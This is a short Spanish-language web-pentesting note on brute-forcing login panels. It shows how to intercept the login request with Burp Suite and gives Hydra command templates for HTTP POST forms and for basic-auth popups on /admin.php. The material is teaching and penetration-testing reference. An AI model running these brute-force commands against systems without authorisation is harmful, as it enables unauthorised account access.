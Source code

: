 ```yaml
---
title: "Fuerza Bruta Login"
layout: "single"
category: "Web Pentesting"
slug: "web-pentesting/fuerza-bruta-login"
date: "2025-09-30"
---
```


### Formulario de login
Cuando detectamos un panel de login, se pueden realizar varias cosas, probar inyecciones SQL, realizar fuerza bruta con wpscan (si se trata de un wordpress), tratar de enumerar usuarios con burpsuite, etc. En este caso vamos a tratar de hacer fuerza bruta al panel de login con **Burpsuite e Hydra** .

#### Interceptar petición

Realizamos un intento de login para interceptar la petición, nos interesan los campos `POST o  GET` junto con la `URL a la que se realizará el ataque`.  Además de la información que se tramita, normalmente algo parecido a `username=admin&password=admin`


* La ^PASS^ es una palabra reservada para que hydra haga la fuerza bruta en ese campo del formulario
* El mensaje de error, lo veremos al hacer un intento de login, lo podemos ver en la interfaz gráfica (esto lo necesita hydra para identificar cuando una pass es buena y cuando no)
* El proceso es lento, puede durar varios minutos hasta recorrer todo el diccionario.

```bash
hydra -t 64 -l admin -P <diccionario> <ip> http-post-form "/login.php:username=admin&password=^PASS^:<mensaje de error que nos da al meter una contraseña incorrecta>"
```

### Ventana emergente
Al llegar a un sitio web, puede que el navegador nos requiera de credenciales en forma de mini ventana emergente. Por ejemplo tenemos nos aparece una ventana emergente en  **http://ip/admin.php**
```bash
### para especificar usuario y pass por separado
hydra -l admin -P <diccionario> -s <port> -f <ip> http-get /admin.php

### para especificar usuario:pass en el mismo fichero
hydra -C <diccionario_user:pass> -s <port> -f <ip> http-get /admin.php
```